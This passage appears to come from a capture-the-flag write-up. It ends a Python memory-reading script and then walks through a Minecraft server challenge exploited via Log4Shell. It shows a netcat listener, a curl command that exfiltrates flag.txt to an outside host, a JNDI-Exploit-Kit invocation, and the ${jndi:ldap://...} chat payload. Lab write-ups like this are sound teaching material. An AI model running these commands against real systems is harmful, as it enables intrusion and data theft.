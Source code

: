         data = unhexlify(p.read(8))
        p.close()
        for c in data[::-1]:
            c = chr(c)
            if c.isprintable():
                result += c
            else:
                result += "."
    except:
        print("Error reading offset {}, filling with ?".format(offset))
        result += "????"
    if offset % 10 == 0:
        print("reading offset {}/120".format(offset))
print(result)
```

</br>

## Minecraft - Medium

*My buddy set up a Minecraft server. I wonder what else is on their machine?*
</br>

The task is a Minecraft server running a vanilla Minecraft 1.16.5 server on OpenJDK 8u111. It is vulnerable for the [Log4Shell (https://en.wikipedia.org/wiki/Log4Shell) vulnerability. It can be exploited using a publicly available exploit toolkit such as [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit). The flag is hidden in a file named "flag.txt".

To start with, we need a publicly available server which we use to exfiltrate our data from the target network. This can be achieved by running `netcat` on a server of your choice:

```
nc -l 8001
```

We craft a command to upload the flag from the Minecraft server to the server that is running `netcat`. You can use any command here including a reverse shell, but for simplicity we just upload the flag file using `curl`:

```
curl --data-binary @flag.txt http://myserver:8001
```

To generate and serve the payload, we can use `JNDI-Exploit-Kit` and pass our crafted command as an argument:

```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "curl --data-binary @flag.txt http://myserver:8001/"
```

The tool will present a variety of different payloads. We take the `JDK 1.8 ldap://` payload and wrap it in a Log4j substitution:

```
${jndi:ldap://myserver:1389/w9nmaj}
```

Finally we just connect to the Minecraft server and drop the payload string in the chat. 

![](/assets/blog/neuland-ctf-04-2022/minecraft.webp)
</br>

The server will log all chat messages to the server log and as a result trigger the Log4Shell vulnerability.
```